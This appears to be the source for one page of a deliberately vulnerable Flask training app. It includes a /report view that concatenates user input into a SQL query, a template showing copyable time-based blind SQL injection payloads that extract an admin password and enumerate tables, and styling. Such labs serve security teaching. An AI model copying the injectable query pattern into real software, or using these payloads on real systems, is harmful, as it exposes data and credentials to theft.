
Screenshot of /report with the database file from the repository.
### tables this page shows
CREATE TABLE products (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    name TEXT NOT NULL,
    description TEXT,
    price REAL,
    category TEXT,
    stock INTEGER DEFAULT 0
);

### app.py (the view)
@app.route('/report')
def report():
    product_id = request.args.get('id', '1')
    db = get_db()
    result = None
    executed_query = None
    error = None
    start_time = time.time()
    query = "SELECT * FROM products WHERE id = " + product_id
    executed_query = query
    try:
        result = db.execute(query).fetchone()
    except sqlite3.Error as e:
        error = str(e)
    elapsed_time = time.time() - start_time
    return render_template('report.html',
                         result=result,
                         product_id=product_id,
                         executed_query=executed_query,
                         error=error,
                         elapsed_time=round(elapsed_time, 4))

### app.py (called while the page is built)
def get_db():
    if 'db' not in g:
        g.db = sqlite3.connect(DATABASE)
        g.db.row_factory = sqlite3.Row
    return g.db

### templates/report.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
<div class="card">
    <div class="card-header">
        <span class="card-title">⏱️ Product Report</span>
        <span class="badge badge-danger">Vulnerable: Time-Based Blind SQLi</span>
    </div>
    <p style="color: var(--text-muted); font-size: 14px; margin-bottom: 20px;">
        This endpoint is vulnerable to <strong>Time-Based Blind SQL Injection</strong>.
        SQLite uses <code>randomblob(N)</code> to cause measurable delays. Attackers use response timing to infer conditions.
    </p>
    <form method="GET" action="{{ url_for('report') }}">
        <div style="display: flex; gap: 12px;">
            <input type="text" name="id" value="{{ product_id }}" placeholder="Product ID..." style="flex: 1;">
            <button type="submit" class="btn btn-primary">Generate Report</button>
        </div>
    </form>
    {% if executed_query %}
    <div class="query-box">
        <span class="label">Executed SQL Query</span>
        <code>{{ executed_query }}</code>
    </div>
    {% endif %}
    <div style="display: flex; gap: 16px; margin: 16px 0;">
        <div style="flex: 1; background: var(--bg); padding: 16px; border-radius: 8px; text-align: center;">
            <div style="font-size: 24px; font-weight: 700; color: var(--accent);">{{ elapsed_time }}s</div>
            <div style="font-size: 12px; color: var(--text-muted); margin-top: 4px;">Response Time</div>
        </div>
    </div>
    {% if result %}
    <div class="card" style="background: rgba(88, 166, 255, 0.05);">
        <table class="data-table">
            <tr><td style="width: 120px; color: var(--text-muted);">ID</td><td>{{ result.id }}</td></tr>
            <tr><td style="color: var(--text-muted);">Name</td><td>{{ result.name }}</td></tr>
            <tr><td style="color: var(--text-muted);">Description</td><td>{{ result.description }}</td></tr>
            <tr><td style="color: var(--text-muted);">Price</td><td>${{ result.price }}</td></tr>
            <tr><td style="color: var(--text-muted);">Category</td><td>{{ result.category }}</td></tr>
            <tr><td style="color: var(--text-muted);">Stock</td><td>{{ result.stock }}</td></tr>
        </table>
    </div>
    {% elif not error %}
        <div class="alert alert-info">No product found with ID: {{ product_id }}</div>
    {% endif %}
</div>
<div class="card">
    <div class="card-header">
        <span class="card-title">💉 Time-Based Blind SQLi Payloads</span>
        <span class="badge badge-warning">Click to copy</span>
    </div>
    <div class="payload">
        <div class="payload-label">Cause delay if admin password starts with 'a' (~2-5s delay)</div>
        1 AND (SELECT CASE WHEN (substr((SELECT password FROM users WHERE username='admin'),1,1)='a') THEN randomblob(1000000000) ELSE 1 END)
    </div>
    <div class="payload">
        <div class="payload-label">Heavy delay for True condition</div>
        1 AND (SELECT CASE WHEN (SELECT count(*) FROM users WHERE role='admin') > 0 THEN randomblob(500000000) ELSE 1 END)
    </div>
    <div class="payload">
        <div class="payload-label">Check password length with timing</div>
        1 AND (SELECT CASE WHEN (length((SELECT password FROM users WHERE username='admin')) > 5) THEN randomblob(1000000000) ELSE 1 END)
    </div>
    <div class="payload">
        <div class="payload-label">Enumerate database name character by character</div>
        1 AND (SELECT CASE WHEN (substr((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1),1,1)='u') THEN randomblob(1000000000) ELSE 1 END)
    </div>
</div>
<div class="card" style="border-color: var(--info);">
    <div class="card-header">
        <span class="card-title" style="color: var(--info);">⚠️ Important Notes</span>
    </div>
    <ul style="padding-left: 20px; color: var(--text-muted); font-size: 13px; line-height: 1.8;">
        <li>SQLite lacks <code>SLEEP()</code> — we use <code>randomblob(N)</code> as alternative</li>
        <li>Adjust <code>randomblob()</code> size based on your system's memory and CPU</li>
        <li>Very large values may cause timeouts — start small (1000000)</li>
        <li>Network latency can affect timing — test from localhost for consistency</li>
    </ul>
</div>
{% endblock %}

### templates/base.html (style rules this page uses)
:root { --bg: #0d1117; --bg-secondary: #161b22; --border: #30363d; --text: #c9d1d9; --text-muted: #8b949e; --accent: #58a6ff; --accent-hover: #79b8ff; --danger: #f85149; --warning: #f0883e; --success: #3fb950; --info: #58a6ff; }
* { margin: 0; padding: 0; box-sizing: border-box; }
body { font-family: 'Segoe UI', system-ui, -apple-system, sans-serif; background: var(--bg); color: var(--text); line-height: 1.6; min-height: 100vh; }
.card { background: var(--bg-secondary); border: 1px solid var(--border); border-radius: 12px; padding: 24px; margin-bottom: 20px; }
.card-header { display: flex; align-items: center; justify-content: space-between; margin-bottom: 16px; }
.card-title { font-size: 18px; font-weight: 600; color: var(--text); }
.badge { display: inline-flex; align-items: center; padding: 4px 10px; border-radius: 20px; font-size: 11px; font-weight: 600; text-transform: uppercase; letter-spacing: 0.5px; }
.badge-danger { background: rgba(248, 81, 73, 0.15); color: var(--danger); border: 1px solid rgba(248, 81, 73, 0.3); }
.badge-warning { background: rgba(240, 136, 62, 0.15); color: var(--warning); border: 1px solid rgba(240, 136, 62, 0.3); }
input[type="text"], input[type="password"], input[type="email"], textarea { width: 100%; padding: 10px 14px; background: var(--bg); border: 1px solid var(--border); border-radius: 8px; color: var(--text); font-size: 14px; }
.btn { display: inline-flex; align-items: center; justify-content: center; gap: 8px; padding: 10px 20px; border: none; border-radius: 8px; font-size: 14px; font-weight: 600; cursor: pointer; transition: all 0.2s; text-decoration: none; }
.btn-primary { background: var(--accent); color: white; }
.query-box { background: #0d1117; border: 1px solid var(--border); border-radius: 8px; padding: 16px; margin: 16px 0; font-family: 'Consolas', 'Monaco', monospace; font-size: 13px; overflow-x: auto; }
.query-box .label { color: var(--text-muted); font-size: 11px; text-transform: uppercase; letter-spacing: 1px; margin-bottom: 8px; display: block; }
.query-box code { color: #a5d6ff; }
.data-table { width: 100%; border-collapse: collapse; margin-top: 16px; }
.data-table th, .data-table td { padding: 12px; text-align: left; border-bottom: 1px solid var(--border); font-size: 13px; }
.payload { background: #1a1f2e; border-left: 3px solid var(--warning); padding: 12px 16px; margin: 8px 0; border-radius: 0 8px 8px 0; font-family: 'Consolas', 'Monaco', monospace; font-size: 12px; color: #e6edf3; cursor: pointer; transition: background 0.2s; }
.payload-label { font-size: 11px; color: var(--warning); margin-bottom: 4px; font-weight: 600; }
code { font-family: 'Consolas', 'Monaco', 'Courier New', monospace; color: #a5d6ff; }

### rows the page displays
products: id "1", name "Laptop Pro X1", description "High-performance business laptop with 16GB RAM", price "1299.99", category "Electronics", stock "15"

### other values shown
{{ executed_query }} "SELECT * FROM products WHERE id = 1"
{{ elapsed_time }} "0.0"
